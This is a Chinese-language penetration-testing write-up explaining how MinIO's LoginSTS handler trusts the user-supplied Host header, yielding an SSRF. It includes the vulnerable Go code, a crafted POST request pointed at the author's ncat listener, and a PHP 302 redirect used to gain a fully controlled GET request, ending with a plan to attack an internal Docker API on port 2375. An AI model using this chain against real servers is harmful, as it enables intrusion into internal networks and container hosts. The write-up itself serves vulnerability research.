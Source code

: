简化其代码如下：

```
// LoginSTS - STS user login handler.func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error { ctx := newWebContext(r, args, "WebLoginSTS") v := url.Values{} v.Set("Action", webIdentity) v.Set("WebIdentityToken", args.Token) v.Set("Version", stsAPIVersion) scheme := "http"    // ... u := &url.URL{  Scheme: scheme,  Host:   r.Host, } u.RawQuery = v.Encode() req, err := http.NewRequest(http.MethodPost, u.String(), nil) // ...}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO 为了将请求转发给 “自己”，就从用户发送的 HTTP 头 Host 中获取到 “自己的地址”，并将其作为 URL 的 Host 构造了新的 URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的 Host，进而构造一个 SSRF 漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中 Host 的值是我本地 ncat 开放的端口（`192.168.1.142:4444`）：

```
POST /minio/webrpc HTTP/1.1Host: 192.168.1.142:4444User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36Content-Type: application/jsonContent-Length: 80{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

![](https://mmbiz.qpic.cn/mmbiz_png/5AsxricGekWgBGia6X7s9uAOQh3cwuezObF6wEictOEtibJkQosqvw7HPFibFm2B2ynpsF0EMYG2XOhVrXbria4DfqHw/640?wx_fmt=png)

可以确定这里存在一个 SSRF 漏洞了。

0x02 升级 SSRF 漏洞
---------------

仔细观察，可以发现这是一个 POST 请求，但是 Path 和 Body 都没法控制，我们能控制的只有 URL 中的一个参数`WebIdentityToken`。

但是这个参数经过了 URL 编码，无法注入换行符等其他特殊字符。这样就比较鸡肋了，如果仅从现在来看，这个 SSRF 只能用于扫描端口。我们的目标当然不仅限于此。

与 PHP 的`file_get_contents()`和 Python 的`requests.post()`不同，Go 默认的 http 库会跟踪 302 跳转，而且不论是 GET 还是 POST 请求。所以，我们这里可以 302 跳转来 “升级”SSRF 漏洞。

使用 PHP 来简单地构造一个 302 跳转：

```
<?phpheader('Location: http://192.168.1.142:4444/attack?arbitrary=params');
```

将其保存成 index.php，启动一个 PHP 服务器：

![](https://mmbiz.qpic.cn/mmbiz_png/5AsxricGekWgBGia6X7s9uAOQh3cwuezObyxo44WLicJI8DfajEz58DAes49vibT7JSAElicDxganfAXz75hfr4Cjibg/640?wx_fmt=png)

将 Host 指向这个 PHP 服务器。这样，经过一次 302 跳转，我们收获了一个可以控制完整 URL 的 GET 请求：

![](https://mmbiz.qpic.cn/mmbiz_png/5AsxricGekWgBGia6X7s9uAOQh3cwuezObS0Z9ZdEIIFMnJ3kskq5XvbIK9nHRUO35vyn2lcR73Dy5k2IaQ6aVRw/640?wx_fmt=png)

放宽了一些限制，结合前面我对这套内网的了解，我们可以尝试攻击 Docker 集群的 2375 端口。

2375 是 Docker API 的接口，使用 HTTP 协议通信，默认不会监听 TCP 地址，这里可能是为了方便内网其他机器使用所以开放在内网的地址里了。那么，我们是否可以通过 SSRF 来攻击这个接口呢？
